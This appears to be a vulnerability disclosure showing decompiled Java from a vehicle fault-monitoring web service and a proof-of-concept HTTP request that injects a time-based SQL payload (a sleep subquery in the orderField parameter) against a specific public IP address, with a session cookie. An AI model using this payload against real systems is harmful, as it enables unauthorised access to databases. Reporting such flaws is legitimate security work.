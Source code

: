 ```java
            }
            if ((groupId == null || groupId.isEmpty()) && (vehicleId == null || vehicleId.isEmpty())) {
                String uID = CommonFunction.getCookieInfo(request, "UID");
                List<Integer> groupIdList2 = this.service.getUserAllGroupId(Integer.parseInt(uID));
                vehicleIdList.addAll(this.service.getAllVehicleId(groupIdList2));
            }
            if (vehicleIdList == null || vehicleIdList.size() < 1) {
                return CommonFunction.createResultMap(200, 0, new ArrayList());
            }
        }
        List<String> userNameList = new ArrayList<>();
        if (userName != null && !userName.isEmpty()) {
            for (String str : userName.split(",")) {
                userNameList.add(str);
            }
        }
        Date firstFaultTime = null;
        if (firstFaultTimeStr != null && !firstFaultTimeStr.isEmpty()) {
            firstFaultTime = this.sdf.parse(firstFaultTimeStr);
        }
        Date startTime = null;
        if (startStr != null && !startStr.equals("")) {
            startTime = this.sdf.parse(startStr);
        }
        Date endTime = null;
        if (endStr != null && !endStr.equals("")) {
            endTime = this.sdf.parse(endStr);
        }
        recordCount = this.service.getLastMemoryStateRecordCount(vehicleIdList, field, value, healtState, type, firstFaultTime, faultTotal, startTime, endTime, repairState, userNameList);
        list = this.service.getLastMemoryStateItems(vehicleIdList, field, value, healtState, type, firstFaultTime, faultTotal, startTime, endTime, repairState, userNameList, sortField, sortType, page, rows);
        return CommonFunction.createResultMap(code, recordCount, list);
    }
```
<img width="2385" height="1260" alt="image" src="https://github.com/user-attachments/assets/f3c73bf5-38ef-4aa3-9e72-39815adce813" />

<img width="1974" height="1308" alt="image" src="https://github.com/user-attachments/assets/6ef2c274-56de-41a5-ad5a-82d6ef30b9f9" />

The parameters are controllable by the user. Based on this, we constructed the following Proof of Concept (POC):

```
POST http://91.235.247.177:8000/MemoryState.do?Action=Query HTTP/1.1
Host: 91.235.247.177:8000
Content-Length: 163
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
Content-Type: application/x-www-form-urlencoded

EndTime=2024-08-20+00%3A00%3A00&PageIndex=0&PageSize=20&RepairState=-1&StartTime=2024-08-26+00%3A00%3A00&orderField=(select*from(select%0asleep(6))a)&orderType=asc
```
<img width="1941" height="960" alt="image" src="https://github.com/user-attachments/assets/33ca83ee-d4d8-4828-8ddc-b28556fbffe1" />

The successful 6-second delay confirms that the `MemoryState.do?Action=Query` interface has an SQL injection vulnerability.

Thank you for your review! Wish you a pleasant life!
